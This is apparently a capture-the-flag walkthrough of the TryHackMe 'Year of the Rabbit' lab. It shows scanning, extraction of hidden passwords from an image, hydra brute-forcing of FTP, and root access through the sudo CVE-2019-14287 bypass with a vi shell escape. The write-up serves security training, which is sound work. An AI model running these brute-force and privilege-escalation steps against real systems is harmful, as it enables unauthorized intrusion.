



# Year of the Rabbit

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: Time to enter the warren...
```

Room link: [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

## Solution

Let's have a nice gentle start to the New Year!

Can you hack into the Year of the Rabbit box without falling down a hole?

### Check for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ export TARGET_IP=10.10.216.116

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 10:10 CEST
Nmap scan report for 10.10.216.116
Host is up (0.043s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.78 seconds
```

We have three main services running and available:

- vsftpd 3.0.2 on port 21
- OpenSSH 6.7p1 on port 22
- Apache httpd 2.4.10 on port 80

Nmap doesn't report any anonymous access via FTP.

### Analyse the web site

Manually browsing to port 80 shows a `Apache2 Debian Default Page`:



Search for additional directories and files with `gobuster`shows the following:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.216.116
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 7853]
/assets               (Status: 200) [Size: 1145]
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Checking out the `/assets` directory shows the following contents:



We also check for any comments in the source code with `nmap`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ nmap -v -p80 --script http-comments-displayer $TARGET_IP 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-06 10:29 CEST
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.00s elapsed
Initiating Ping Scan at 10:29
Scanning 10.10.216.116 [4 ports]
Completed Ping Scan at 10:29, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:29
Completed Parallel DNS resolution of 1 host. at 10:29, 0.01s elapsed
Initiating SYN Stealth Scan at 10:29
Scanning 10.10.216.116 [1 port]
Discovered open port 80/tcp on 10.10.216.116
Completed SYN Stealth Scan at 10:29, 0.11s elapsed (1 total ports)
NSE: Script scanning 10.10.216.116.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.46s elapsed
Nmap scan report for 10.10.216.116
Host is up (0.046s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.216.116
|     
|     Path: http://10.10.216.116:80/assets/style.css
|     Line number: 15
|     Comment: 
|         /* Nice to see someone checking the stylesheets.
|              Take a look at the page: /sup3r_s3cr3t_fl4g.php
|           */
|     
|     Path: http://10.10.216.116:80/
|     Line number: 17
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|_        -->

NSE: Script Post-scanning.
Initiating NSE at 10:29
Completed NSE at 10:29, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
           Raw packets sent: 5 (196B) | Rcvd: 66 (16.200KB)
```

and find hidden web page called `/sup3r_s3cr3t_fl4g.php`.

### Investigate the hidden web page

Next, we investigate the hidden web page with curl

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ curl -v http://$TARGET_IP/sup3r_s3cr3t_fl4g.php
*   Trying 10.10.216.116:80...
* Connected to 10.10.216.116 (10.10.216.116) port 80
* using HTTP/1.x
> GET /sup3r_s3cr3t_fl4g.php HTTP/1.1
> Host: 10.10.216.116
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: Sat, 06 Sep 2025 08:33:00 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.216.116 left intact

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ curl -L http://$TARGET_IP/sup3r_s3cr3t_fl4g.php
<html>
        <head>
                <title>sup3r_s3cr3t_fl4g</title>
        </head>
        <body>
                <noscript>Love it when people block Javascript...<br></noscript>
                <noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!<br>Make sure your audio is turned up!<br></noscript>
                <script>
                        alert("Word of advice... Turn off your javascript...");
                        window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ?autoplay=1";
                </script>
                <video controls>
                        <source src="/assets/RickRolled.mp4" type="video/mp4">
                </video>
        </body>
</html>
```

Note that the first GET-request that gets redirected contains this parameter:  
`hidden_directory=/WExYY2Cv-qU`

Accessing this directory (`http://10.10.216.116/WExYY2Cv-qU/`) show this directory listing



We download the `Hot_Babe.png` file for further analysis.

### Analyse the image file

We run different checks on the image file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ file Hot_Babe.png 
Hot_Babe.png: PNG image data, 512 x 512, 8-bit/color RGB, non-interlaced

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ exiftool Hot_Babe.png         
ExifTool Version Number         : 13.10
File Name                       : Hot_Babe.png
Directory                       : .
File Size                       : 475 kB
File Modification Date/Time     : 2025:09:06 10:43:34+02:00
File Access Date/Time           : 2025:09:06 10:43:35+02:00
File Inode Change Date/Time     : 2025:09:06 10:43:34+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 512
Image Height                    : 512
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
SRGB Rendering                  : Perceptual
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 512x512
Megapixels                      : 0.262

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ strings -n 12 Hot_Babe.png
g`c?ktA&6b0I
m`tvl5`BFC@G27@
9blLa"KN,zb,
Ot9RrG7h2~24?
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
<---snip--->
```

Soo we have a user name for FTP (`ftpuser`) and a bunch of password candidates.

### Bruteforce FTP

Next, we prepare a passwords file

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ strings -n 12 Hot_Babe.png > passwords.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ vi passwords.txt      

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ head passwords.txt                                            
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
```

and bruteforce the FTP-login with `hydra`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ hydra -l ftpuser -P passwords.txt $TARGET_IP ftp              
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-06 10:52:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.216.116:21/
[21][ftp] host: 10.10.216.116   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-06 10:52:29
```

Now we have FTP credentials: `ftpuser:5iez1wGXKfPKQ`

### Analyse the FTP-server

Now we login via FTP and check the contents

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ ftp $TARGET_IP
Connected to 10.10.216.116.
220 (vsFTPd 3.0.2)
Name (10.10.216.116:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||61552|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> mget E*
mget Eli's_Creds.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||56541|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*******************************************************************************************************************************************|   758      315.79 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (15.74 KiB/s)
ftp> quit
221 Goodbye.

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ cat Eli\'s_Creds.txt
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This look like [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck).

### Execute the Brainfuck program

There are a number of online services that can execute Brainfuck such as:

- [bf.doleczek.pl](https://www.bf.doleczek.pl/)
- [copy.sh](https://copy.sh/brainfuck/)
- [dcode.fr](https://www.dcode.fr/brainfuck-language)
- [md5decrypt.net](https://md5decrypt.net/en/Brainfuck-translator/)
- [tio.run](https://tio.run/#brainfuck)

The resulting output from the execution is:

```text
User: eli
Password: DSpDiM1wAEwid
```

This ought to be SSH-credentials.

### Login with SSH as eli

Next, we connect with SSH as eli

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Year_of_the_Rabbit]
└─$ ssh eli@$TARGET_IP                        
The authenticity of host '10.10.216.116 (10.10.216.116)' can't be established.
ED25519 key fingerprint is SHA256:va5tHoOroEmHPZGWQySirwjIb9lGquhnIA1Q0AY/Wrw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.216.116' (ED25519) to the list of known hosts.
eli@10.10.216.116's password: 


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE


eli@year-of-the-rabbit:~$ 
```

### Emumerate files

Now we check for any interesting files and directories, including the `s3cr3t hiding place`.

```bash
eli@year-of-the-rabbit:~$ ls -la
total 656
drwxr-xr-x 16 eli  eli    4096 Jan 23  2020 .
drwxr-xr-x  4 root root   4096 Jan 23  2020 ..
lrwxrwxrwx  1 eli  eli       9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r--  1 eli  eli     220 Jan 23  2020 .bash_logout
-rw-r--r--  1 eli  eli    3515 Jan 23  2020 .bashrc
drwxr-xr-x  8 eli  eli    4096 Jan 23  2020 .cache
drwx------ 11 eli  eli    4096 Jan 23  2020 .config
-rw-------  1 eli  eli  589824 Jan 23  2020 core
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Desktop
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Documents
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Downloads
drwx------  3 eli  eli    4096 Jan 23  2020 .gconf
drwx------  2 eli  eli    4096 Jan 23  2020 .gnupg
-rw-------  1 eli  eli    1098 Jan 23  2020 .ICEauthority
drwx------  3 eli  eli    4096 Jan 23  2020 .local
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Music
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Pictures
-rw-r--r--  1 eli  eli     675 Jan 23  2020 .profile
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Public
drwx------  2 eli  eli    4096 Jan 23  2020 .ssh
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Templates
drwxr-xr-x  2 eli  eli    4096 Jan 23  2020 Videos

eli@year-of-the-rabbit:~$ find / -name '*s3cr3t*' 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ 
```

We have the PHP-file we found earlier and a new directory (`/usr/games/s3cr3t`).

```bash
eli@year-of-the-rabbit:~$ ls -la /usr/games/s3cr3t/
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:~$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
eli@year-of-the-rabbit:~$ 
```

And we have some new credentials (`gwendoline:MniVCQVhQHUNI`)

### Switch user to gwendoline

Since we haven't found any user flag yet, we switch user to gwendoline

```bash
eli@year-of-the-rabbit:~$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/home/eli$ cd ..
gwendoline@year-of-the-rabbit:/home$ ls
eli  gwendoline
gwendoline@year-of-the-rabbit:/home$ cd gwendoline/
gwendoline@year-of-the-rabbit:~$ ls
user.txt
gwendoline@year-of-the-rabbit:~$ 
```

### Get the user flag

And there we have the user flag. Let's cat it!

```bash
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{<REDACTED>}
gwendoline@year-of-the-rabbit:~$ 
```

### Emumeration for privilege escalation

We now start enumerating for ways to escalate our privileges.  
First we check if we can run any commands as root via `sudo`

```bash
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
gwendoline@year-of-the-rabbit:~$ 
```

We can run `vi` on the user flag file as any user **other than** `root`.  
Otherwise we could [break ought from vi and get a shell](https://gtfobins.github.io/gtfobins/vi/).

If we still try it, we get the following error message

```bash
gwendoline@year-of-the-rabbit:~$ sudo /usr/bin/vi /home/gwendoline/user.txt
[sudo] password for gwendoline: 
Sorry, user gwendoline is not allowed to execute '/usr/bin/vi /home/gwendoline/user.txt' as root on year-of-the-rabbit.
```

### Sudo analysis

However, if we check the sudo version we find that it is an old version

```bash
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
gwendoline@year-of-the-rabbit:~$ 
```

And all sudo versions less than 1.8.28 are vulnerable to CVE-2019-14287.

This means we can use `sudo -u#1 <cmd>` to get root access.

```bash
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Then we run `!/bin/bash` from within `vi` to get a root shell

```bash
root@year-of-the-rabbit:/home/gwendoline# id
uid=0(root) gid=0(root) groups=0(root)
root@year-of-the-rabbit:/home/gwendoline# 
```

### Get the root flag

And finally, we can get the root flag

```bash
root@year-of-the-rabbit:/home/gwendoline# cat /root/root.txt 
THM{<REDACTED>}
root@year-of-the-rabbit:/home/gwendoline# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Brainfuck - Wikipedia](https://en.wikipedia.org/wiki/Brainfuck)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [CVE-2019-14287 - NIST](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
- [exiftool - Linux manual page](https://linux.die.net/man/1/exiftool)
- [ExifTool - Wikipedia](https://en.wikipedia.org/wiki/ExifTool)
- [file - Linux manual page](https://man7.org/linux/man-pages/man1/file.1.html)
- [File Transfer Protocol - Wikipedia](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [String (computer science) - Wikipedia](https://en.wikipedia.org/wiki/String_(computer_science))
- [strings - Linux manual page](https://man7.org/linux/man-pages/man1/strings.1.html)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [vi - GTFOBins](https://gtfobins.github.io/gtfobins/vi/)
- [vsftpd - Wikipedia](https://en.wikipedia.org/wiki/Vsftpd)
